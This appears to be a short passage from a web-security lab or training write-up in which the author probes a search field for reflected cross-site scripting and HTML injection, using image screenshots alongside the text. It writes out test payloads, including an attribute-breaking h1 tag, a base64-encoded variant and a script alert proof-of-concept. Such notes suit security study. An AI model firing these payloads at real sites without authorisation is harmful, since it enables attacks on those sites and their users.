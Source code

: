 <figure><img src="../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

I will try use some tags to test rxss <mark style="color:red;">**`'"><h1>Hacked</h1>`**</mark>

<mark style="color:blue;">**`the best`**</mark> **`'"><h1>Hacked</h1>{7*7}}JyI+PGgxPmhhY2tlZDwvaDE+`**

<figure><img src="../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

Ok this search Vulnerable HTML injection &&  RXSS

Simple JS payload

```javascript
<script>alert('OSCP+EWAPTXv2')</script>
```

<figure><img src="../../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>
